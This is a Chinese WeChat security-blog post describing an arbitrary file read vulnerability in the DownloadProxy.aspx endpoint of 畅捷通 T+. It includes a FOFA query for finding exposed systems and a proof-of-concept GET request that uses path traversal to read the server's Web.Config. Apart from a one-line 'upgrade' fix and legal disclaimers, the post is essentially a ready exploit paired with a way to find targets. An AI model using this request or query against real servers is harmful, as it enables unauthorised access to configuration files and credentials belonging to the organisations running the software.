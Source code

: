 #  ​畅捷通TPlus DownloadProxy.aspx 任意文件读取漏洞

巢安实验室  [ 巢安实验室 ](javascript:void\(0\);)

**巢安实验室** ![]()

微信号 safe-labs

功能介绍 为荣誉而战，为的是那份自己不屈服于任何人，踢踏是脚下的尊严。

____

___发表于_

收录于合集 #漏洞复现 88个

**漏洞简介**

畅捷通T+专属云适用于需要一体化管理的企业，财务管理、业务管理、零售管理、生产管理、物流管理、移动仓管、营销管理、委外加工等人财货客一体化管理。用友畅捷通T+
DownloadProxy.aspx文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感文件。  
  

 **影响版本**

用友 畅捷通T+  
用友 畅捷通T+

 **FOFA语句**

  * 

    
    
     app="畅捷通-TPlus"

![]()

 **漏洞复现**

登录页面如下  

![]()

POC：

  * 

    
    
    GET /tplus/SM/DTS/DownloadProxy.aspx?preload=1&Path=../../Web.Config HTTP/1.1

![]()

 **修复建议**

建议升级至安全版本  

![]()

 **本文版权归作者和微信公众号平台共有，重在学习交流，不以任何盈利为目的，欢迎转载。**

 **  
**

 **由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。 **公众号**
内容中部分攻防技巧等只允许在目标授权的情况下进行使用，大部分文章来自各大安全社区，个人博客，如有侵权请立即联系公众号进行删除。若不同意以上警告信息请立即退出浏览！！！**

 **  
**

 **敲敲小黑板：《刑法》第二百八十五条
【非法侵入计算机信息系统罪；非法获取计算机信息系统数据、非法控制计算机信息系统罪】违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。违反国家规定，侵入前款规定以外的计算机信息系统或者采用其他技术手段，获取该计算机信息系统中存储、处理或者传输的数据，或者对该计算机信息系统实施非法控制，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处三年以上七年以下有期徒刑，并处罚金**
。  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

